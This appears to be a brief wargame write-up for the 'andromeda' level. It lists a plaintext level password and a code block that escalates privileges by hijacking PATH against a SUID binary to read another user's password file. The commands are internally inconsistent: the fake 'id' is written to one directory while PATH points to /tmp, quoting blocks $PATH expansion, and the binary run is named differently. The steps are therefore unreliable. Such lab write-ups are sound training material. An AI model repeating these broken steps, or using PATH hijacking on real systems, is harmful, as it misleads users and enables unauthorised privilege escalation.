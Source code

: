 # username
andromeda
# password
OTWGTbHzrxhYFSTlKcOt
# objective
The user anthea reminds us who we are.
# method of solve
The SUID binary in the home directory makes reference to the ID command. We can do path hijacking. So...
```
mkdir /tmp/...andromeda/
echo '/bin/bash' > /tmp/...andromeda/id
export 'PATH=/tmp:$PATH'
./uid
cat anthea_pass.txt
```
